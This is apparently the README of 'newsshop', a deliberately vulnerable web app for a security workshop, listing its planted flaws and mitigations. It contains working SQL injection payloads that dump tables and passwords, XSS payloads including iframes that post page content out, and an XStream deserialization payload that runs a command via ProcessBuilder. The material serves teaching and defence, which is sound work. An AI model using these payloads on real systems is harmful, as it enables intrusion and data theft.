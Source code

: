 newsshop
========

## Included known vulnerabilities:

### SQL Injection
* `name` field is vulnerable to SQL Injection
  * in a first step the attacker might read all tables in the database with
    ```
    ' or 1=1 UNION SELECT 0,false, 'alle','',GROUP_CONCAT(TABLE_NAME SEPARATOR ', '),'' FROM INFORMATION_SCHEMA.TABLES;--
    ```
  * in a second step he may read the contents of `PASSWORD`
    ```
    ' or 1=1 UNION SELECT 0,false, 'passwörter','',GROUP_CONCAT(PASSWORD SEPARATOR ', '),'' FROM PASSWORD;--
    ```

### Cross Site Scripting
* `source` field is vulnerable to XSS
  ```
  <img src="a" onerror="alert('hacked')" />
  ```
### Legacy attributes in API
* the newsletter support more attributes than the newsletter form
  * the field `mailProperties` may be filled with JSON/HTML by using a rest client/or browser tools
  * the field `mailproperites` itself is vulnerable to XSS

### Invalid Supply Chain
* xstream in 1.4.6 contains a command injection vulnerability
  * `http://localhost:8080/api/newsletter/import` with payload
    ```
    <newsletter class='dynamic-proxy'>
        <interface>com.andrena.newsec.model.Newsletterable</interface>
        <handler class='java.beans.EventHandler'>
            <target class='java.lang.ProcessBuilder'>
                <command>
                    <string>calc.exe</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </newsletter>
    ```

### Privileges
* Admin and Users run in the same Application
* Database contains Newsletters but also Passwords from another team (that has nothing to do with newletters)

## Planned/Possible vulnerabilities:

### Regex Denial of Service
* some attribute of the newsletter could be validated with a regexp, that may expand in exponential time

### Broken serialization
* `mail properties` is at this time a json document with html contents. It may also be yaml. Maybe it can be used to inject a serialization vulnerability

### Reflected/DOM XSS
* the confirmation page/error page could embedded html in and unsafe way allowing XSS
  * depedent on the source of JS-Injectable 
    * url parameter => DOM XSS
    * result of the former api call => Reflected XSS

## Mitigation

### Validate Input

* Names need not contain double quotes
* Number input should be numeric
* JSON Input should be JSON
* Richtext may contain HTML, but only formatting, no links, no images, no iframes
* dropdowns should be in a list of options

### sanitize output to other systems

* For SQL use Prepared Statements or equivalents
  * Never use user dependent SQL Templates (whenever the template string cannot be proofed to be in a finite set of texts, this should be alerting)
* For Serialization limit the types of the result
  * Limiting to interfaces should be considered harmful (because these allow an infinite set of new sub classes)
* For Console Access
  * Limit to allowed commands

### Track the dependencies

* Update to the newest dependencies
* Check whether vulnerable dependencies are drawn
  * and check whether the vulnerable part is really depended on

### Control your privileges

* for databases
  * do not access the database with admin rights
  * restrict the user to exactly those tables that he needs (`grant ...`)
* in general
  * do not run with root privileges
    * unless really needed - an than return the privileges as soon as possible

### Content Security Policy

* not allowing onerrors to be defined in the page would prevent `<img onerror>` attacks

### more xss examples:
* Blind XSS (executed on admin page)
* send page content to other server
```
<iframe src="javascript:console.log('xss?', window.parent.document.body.innerHTML)"></iframe>

<iframe src="javascript:fetch('http://localhost:8080', {
  method: 'POST',
  body: window.parent.document.body.innerHTML
})
"></iframe>
```
* delete entries in table
```
<iframe src="javascript:window.parent.document.querySelector('.delete-btn').click()"></iframe>
```

### to be continued
* add XSS to confirmation page
* add OpenAPI 
* add old urls in the frontend code (to hint at mail properties?)

### Next steps:
* docker
* Struktur/Ablauf Workshop mit Secorvo, insbesondere die Inhalte (erstmal abwarten): Wie soll der Kurs laufen?
* Folien fertigstellen
* Tests für die Maßnahmen: Input Validation,...
* Hints: über Anwendung, Handouts, über Fragen während des Workshops (die kann man schon vorbereiten)


### how to get the participants to the attacks

* admin password can be guessed (should just be used to see the results of XSS and not as an attack)
* e-mail: enter same value twice
* sql: try the different input fields, start with '
* MailProperties: guess, try things out, admin dashboard

### complete fetch code for invalid supply chain on mac 
* post into browser console
```
fetch("http://localhost:8080/api/newsletter/import", {
headers: {
"accept": "application/json, text/plain, */*",
"authorization": "Basic YWRtaW46YWRtaW4=",
"cache-control": "no-cache",
"Content-Type": "application/xml"
},
referrer: "http://localhost:8080/subscribe.html",
referrerPolicy: "strict-origin-when-cross-origin",
body: `<newsletter class="dynamic-proxy">
        <interface>com.andrena.newsec.model.Newsletterable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>open</string>
                    <string>-a</string>
                    <string>Calculator</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </newsletter>`,
method: "POST",
mode: "cors",
credentials: "include"
});
```



